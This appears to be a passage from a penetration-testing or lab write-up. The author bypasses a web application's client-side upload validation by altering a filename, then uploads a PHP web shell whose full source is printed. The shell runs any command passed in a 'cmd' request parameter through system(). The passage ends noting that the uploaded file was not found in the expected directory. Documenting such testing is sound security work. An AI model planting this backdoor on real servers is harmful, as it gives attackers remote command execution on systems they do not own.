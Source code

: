 
I used the `/usr/share/webshell/php/simple-backdoor.php` as a file to upload by bypassing the client side validation with alterning the filename, the web appliaction was indicating the file uploaded,
```php
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
	}
?>
```

![](/assets/images/emporium/pe7.png)
The uploaded file was not able to access in the expected directory, indicating, it might have stored somewhere else
